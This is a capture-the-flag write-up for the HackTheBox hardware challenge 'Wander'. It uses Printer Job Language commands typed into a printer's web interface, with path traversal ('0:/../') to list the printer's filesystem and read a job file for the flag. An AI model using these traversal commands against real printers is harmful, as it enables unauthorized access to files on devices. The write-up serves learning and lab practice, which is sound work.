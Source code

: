 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Wander"
date: 2025-01-27
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge: [Wander](https://app.hackthebox.com/challenges/Wander)
- Category: Hardware
- Solve date: 2025-01-27

---
### Description

> My uncle isn't allowing me to print documents. He's off to vacation and I need a PIN to unlock this printer. All I found is a web server where this printer is managed from. Can you help me with this situation?

### Provided files

- n/a

---
# Web server recon

Visiting the provided URL, there is one input which mentions  "@JPL INFO ID". This make us realize that we are dealing with "Printer Job Language", and that we can probably just type any PJL command into the input.

---
# PJL

The [Printer Exploitation Toolkit](https://github.com/RUB-NDS/PRET/blob/master/pjl.py#L237) can help us find some relevant commands to use:
- `@PJL FSUPLOAD` : get file (I know, right..)
- `@PJL INFO` : display info
- `@PJL FSQUERY` : list files and directories

## Exploit

### Validate 

`@PJL INFO STATUS`: 
```html
@PJL INFO STATUS<br />CODE=10001<br />DISPLAY="Ready"<br />ONLINE=True
```

### List files

`@PJL FSDIRLIST NAME="0:/../" ENTRY=1 COUNT=65535`:
```sh
etc TYPE=DIR  
conf TYPE=DIR  
home TYPE=DIR  
rw TYPE=DIR  
tmp TYPE=DIR  
csr_misc TYPE=DIR  
printer TYPE=DIR
```

We'll use this pattern to find interesting files like `/home/default/readyjob`

Get file size with:
`@PJL FSDIRLIST NAME="0:/../home/default/readyjob" ENTRY=1 COUNT=65535`

### Print the file

`@PJL FSUPLOAD NAME = 0:/../home/default/readyjob" SIZE=457 OFFSET=0`

![flag](/assets/ctf_files/htb_wander/flag.png)

:checkered_flag:
